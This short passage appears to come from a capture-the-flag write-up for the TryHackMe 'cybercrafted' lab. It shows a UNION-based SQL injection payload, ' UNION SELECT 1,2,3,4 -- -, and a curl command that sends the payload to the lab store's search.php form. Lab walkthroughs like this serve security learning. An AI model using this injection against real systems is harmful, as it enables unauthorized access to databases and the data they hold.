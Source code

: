 ![image.png](image%201.png)

**PAYLOAD:**

```jsx
' UNION SELECT 1,2,3,4 -- -
```

![image.png](image%202.png)

`curl --path-as-is -iskL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'search=%27+UNION+SELECT+1%2C2%2C3%2C4+--+-&submit=' $'http://store.cybercrafted.thm/search.php/'`
